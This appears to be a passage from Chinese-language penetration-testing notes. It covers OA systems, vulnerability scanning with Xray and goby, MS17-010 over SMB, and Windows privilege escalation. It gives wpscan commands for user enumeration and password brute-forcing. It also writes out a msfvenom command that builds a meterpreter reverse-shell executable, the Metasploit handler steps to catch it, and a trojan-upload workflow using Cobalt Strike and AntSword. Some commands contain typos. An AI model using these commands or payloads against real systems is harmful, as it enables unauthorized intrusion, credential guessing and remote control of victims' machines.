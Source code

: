 ## OA

~~~shell
1、泛微weaver
2、织信informat
3、致远互联
4、蓝凌landray
5、华天动力
# Xray、goby
# 主动扫描、被动扫描(点击页面访问才能监听到在做什么，和burp联用)
1、主动扫描： 输入某个URL，然后由扫描器中的爬虫模块爬取所有链接，对GET、POST等请求进行参数变形和污染，进行重放测试，然后依据返回信息中的状态码、数据大小、数据内容关键字等去判断该请求是否含有相应的漏洞
2、被动扫描： 在进行手动测试的过程中，代理将流量转发给漏洞扫描器，然后再进行漏洞检测
~~~

## CMS漏洞

```shell
# Wordpress：
	wpscan --url "http://192.168.15.176/wordpress" --enumerate u（枚举用户）
	wpscan --url "【目标系统URL】"  --wordlist 【密码字典文件】 --username 【用户名】
# 常见的CMS系统有wordpress、drupal、joomla、xoops等
```

## 其它漏洞

~~~shell
MS17_010:永恒之蓝
	139端口：NetBIOS服务
	445端口：SMB服务
	SMB(全称是Server Message Block)是一个网络协议名，它能被用于Web连接和客户端与服务器之间的信息沟通。SMB最初是IBM的贝瑞·费根鲍姆（Barry Feigenbaum）研制的，其目的是将DOS操作系统中的本地文件接口“中断13”改造为网络文件系统。
	可用于在计算机间共享文件、打印机、串口等，电脑上的网上邻居就是靠它实现的.
~~~



# 十三、提权

## 一、windows 提权

### 1、溢出提权

溢出漏洞是一种计算机程序的可更正性缺陷。溢出漏洞的全名：缓冲区溢出漏洞。因为它是在程序执行的时候在缓冲区执行的错误代码，所以叫缓冲区溢出漏洞。缓冲溢出是最常见的内存错误之一，也是攻击者入侵系统时所用到的最强大、最经典的一类漏洞利用方式。成功地利用缓冲区溢出漏洞可以修改内存中变量的值，甚至可以劫持进程，执行恶意代码，最终获得主机的控制权。

~~~shell
1、win2003提权漏洞：pr.exe
2、自己提权：getsystem（admin-->system）
AT、SC、PS提权
#(1)手动
好用的网站：https://i.hacking8.com/tiquan（利用杀毒软件或者补丁信息）
(2)软件（Cobalt strike）
	1、先生成木马
	2、用中国蚁剑把木马上传，执行exe
# msfvenm -p
一、用kali得到蚁剑权限
1、kali反弹到蚁剑：msfvenom -p windows/materpreter/reverse_tcp LHOST=[kaliIP] LPORT=7755 -f exe > 20_7755.exe
2、kali上监听：kali：mdf6->use exploit/multi/handler 
	set payload windows
	set payload windows/meterpreter/reverse_tcp
	options
	set lhost [kaliIP]
~~~